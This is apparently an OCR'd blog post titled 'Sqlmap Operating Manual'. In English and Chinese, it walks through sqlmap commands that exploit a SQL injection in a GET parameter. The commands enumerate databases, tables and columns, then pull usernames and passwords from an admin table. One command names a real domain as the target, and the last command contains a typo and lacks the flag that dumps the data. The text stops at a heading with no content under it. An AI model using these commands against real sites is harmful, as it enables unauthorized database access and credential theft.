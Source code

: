 ```yaml
---
layout: post
title: Sqlmap Operating Manual
date: 2017-09-01
Author: Ali
categories: 
tags: [cyber security]
comments: true
---
```




## 1.Sqlmap's Get injection



?<u>**This article is only used for cyber security research, please do not use it for improper purposes.**</u>?



假设目标是 http://www.xxxxxxxxx.com/news.php?id=1&data=2



sqlmap语句

##### 列库

sqlmap -u "http://www.baidu.com/news.php?id=1&data=2" --dbs

//假设结果显示库有3个： test1 、test2  、test3



##### 获取库test1的表

sqlmap -u "http://www.xxxxxxxxx.com/news.php?id=1&data=2" -D test1 --tables

//假设有表3个：admin，user，news



##### 获取admin表的columns

sqlmap.py -u "http://www.xxxxxxxxx.com/news.php?id=1&data=2" -D test1 -T admin --columns

//假设有字段3个：id，username，password



##### 获取id，username，password字段的内容

sqlmap.py -u "http://www.xxxxxxxxxx.com/news.php?id=1&data=2" -D test1 -T admin -C "id,usrename,password"



## 2.Sqlmap's Post injection
